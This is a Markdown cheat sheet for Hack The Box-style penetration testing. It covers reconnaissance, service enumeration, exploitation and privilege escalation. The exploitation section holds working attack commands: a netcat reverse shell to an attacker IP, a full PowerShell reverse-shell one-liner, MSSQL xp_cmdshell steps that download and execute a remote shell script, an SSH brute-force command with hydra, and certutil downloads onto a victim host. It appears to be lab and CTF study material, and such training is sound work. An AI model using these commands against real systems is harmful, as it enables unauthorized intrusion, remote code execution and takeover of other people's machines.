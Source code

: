 # HTB_cheatsheet

## Recon

### nmap

Scan network `nmap <NETWORK>/<CIDR>` <br />
Scan for open ports: `nmap <IP> -p- -T4` <br />
Scan for services and their versions: `nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A` <br />

### website technologies
TODO
builtwith.com, wappalyzer (browser addon), whatweb, burpsuite

### email-gathering
TODO
Hunter.io, TheHarvester, breach-parse
  
## Enumeration

### FTP (21)
try to connect to ftp-server: `ftp <IP>`, Username: `anonymous`, Password: `<ENTER>` or `Anonymous` <br />
try to find anything interesting, remember to check for hidden directories as well: `ls -la`
copy file from server to client: `ftp> get <REMOTE-FILE> [<LOCAL-FILE>]`

### SSH (22)
try to connect to ssh: `ssh <IP>`. In case of `no matching key exchange method found. Their offer...` use something in lines of `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1` or `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1 -c aes128-cbc`<br />
see if a banner is returned (for version detection) and if a password is required <br />
try to connect to ssh via a found private key for user: `ssh -i <PRIV_KEY_FILE> <USER>@IP`. Also try to connect to ssh via a found private key to other users that might have authorized this key.


### SMB (139/445)

try to list available shares on smb: `smbclient -L -N \\\\<IP>\\` <br />
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>` <br />
download file from share: `get \<FILE>` <br />

try to find out version of smb-service: use metasploit module ...smb_version TODO <br />

### HTTP/HTTPS (80/443)

visit webpage in browser

try to enumerate directories via gobuster or dirbuster e.g. `gobuster dir -u https://<IP> -w /usr/share/wordlists/dirbuster/common -k` <br />
typical file extensions are: for Apache .php; for Microsoft asp, aspx; for Others .php, .txt, .rar, .pdf, .docx, ... <br />
(optional) use nikto to find vulnerabilities `nikto -h http(s)://<IP>` <br />


### SQL (Windows)

try to connect via impacket's `mssqlclient.py <USER>@<IP> -windows-auth`<br />
check for admin priviledges to be able to have remote code execution ``SELECT IS_SRVROLEMEMBER (`sysadmin`) `` <br />

## Exploitation

### NC / reverse shell
set up netcat to listen to a specified port: `nc -lvnp <PORT>`<br />
to connect back to our attacker machine: `nc -e /bin/sh <ATTACKER-IP> <PORT>`<br />

#### upgrading shell
if python is available: `python -c 'import pty; pty.spawn ("/bin/bash")'` <br />
background the shell with `Ctrl-Z` <br />
set the stty to raw and echo the input characters: `stty raw -echo` the shell will look broken, but continue <br />
foreground the shell with `fg` and hit `Enter` two times or reinitialize the terminal with `reset` <br />
your shell should now have features like tab-completing, history, Ctrl-C without breaking the connection, ... <br />

### SSH (22)
try to bruteforce ssh login with hydra `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP>:<PORT> -t 4 -V` <br />
bruteforcing creates a lot of noise and will probably be discovered.
TODO: what is this? use auxiliary/scanner/ssh/ssh_login

### SMB (139/445)

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'` <br />

Check for vulnerability in combination with FTP of ms17_010


### HTTP/HTTPS (80/443)
Burpsuite! <br />


### MicrosoftSQL (TODO)

if we have sysadmin privileges we can enable the xp_cmdshell to gain remote code execution on the host
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure
xp_cmdshell "whoami"
```
we then can download a malicious script from our HTTPServer. We can use a One-Liner reverse shell code and save it as a .ps1 file, e.g. with One-Liner content: `$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
from the sql server both download and run it directly via `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` <br />
set up the listener beforehand as usual.

### Hosting a webserver to remotely download files onto the victim machine
- Use `sudo python -m SimpleHTTPServer <PORT>` to run a HTTP-Server inside the current directory <br />
- Use `sudo systemctl start apache2` to run a HTTP-Server on /var/www <br />

Download files on linux via `wget http://<IP>/<File>` or curl TODO <br />
Download files on windows via powershell and `certutil -urlcache -f http://<IP>/<FILE> <PATHONVICTIM>\<FILE>` <br />
Download files on windows via cmd TODO

### Creating malicious code with msfvenom
Show available payloads with `msfvenom -l payloads` <br />

## Privilege Escalation

The bible of privesc: `https://www.fuzzysecurity.com/tutorials/16.html`

### Windows
see what user we are: `whoami` <br />
check the CMD history: TODO <br />
check the PowerShell history: `history` or `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` <br />
try to find known vulnerabilities, e.g. via `https://github.com/rasta-mouse/Sherlock` 

### Linux
see what user we are: `whoami` <br />
check the bash history: `history` or `cat ~/.bash_history` <br />
check sudo privileges of user: `sudo -l` <br />
try to find vulerabilities in kernel, get kernel version with `uname -a` <br />
try to find vulnerable programs running as root with `ps -aux` <br />
if we have no idea what to do: upload `LinEnum.sh` or `linuxprivchecker.py` on target machine (e.g. by via own webserver) and run them, or use `post/multi/recon/local_exploit_suggester` in msfconsole

## Cheatsheets

msfvenom: https://netsec.ws/?p=331
tty shell: https://netsec.ws/?p=337
Reverse-shell 1-liners: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


